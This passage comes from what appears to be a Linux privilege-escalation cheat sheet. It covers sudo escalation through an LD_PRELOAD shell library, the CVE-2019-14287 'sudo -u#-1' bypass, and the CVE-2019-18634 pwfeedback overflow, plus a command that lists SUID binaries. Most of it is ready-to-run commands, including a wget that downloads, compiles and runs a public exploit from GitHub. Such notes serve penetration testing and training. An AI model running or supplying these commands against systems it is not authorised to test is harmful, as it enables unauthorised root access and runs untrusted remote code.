 Then compile this C code as a shared object.

```text
gcc -fPIC -shared -o shell.so shell.c -nostartfile
```

Preload this shared object when you run executable you have permission to run with sudo.

```text
sudo LD_PRELOAD=<path_to_your_so_file> <executable_you_can_run_with_sudo>
```

### CVE-2019-14287

If your user has disabled access to some executable.

```text
user ALL=(ALL,!root) /bin/bash
```

With ALL specified, user can run the binary `/bin/bash` as any user \(not only root user, other user id's works too\).

```text
sudo -u#-1 /bin/bash
```

### CVE-2019-18634

When `pwfeedback` is set in a specific versions of sudo \(&lt;1.8.25p\), we can trigger stack-based buffer overflow. Exploiting the bug does not require sudo permissions, merely that `pwfeedback` be enabled.

```text
Matching Defaults entries for user on linux-build:
insults, pwfeedback, mail_badpass, mailerpath=/usr/sbin/sendmail

User user may run the following commands on linux-build:
(ALL : ALL) ALL
```

The bug can be reproduced by passing a large input to sudo via a pipe when it prompts for a password.

```text
wget https://raw.githubusercontent.com/saleemrashid/sudo-cve-2019-18634/master/exploit.c -O exploit.c
gcc -o exploit exploit.c
./exploit
```

## SUID / SGID files

You can list SUID executable with this command.

```text
find / -perm -4000 -type f -exec ls --color=auto -l {} \;2>/dev/null
```
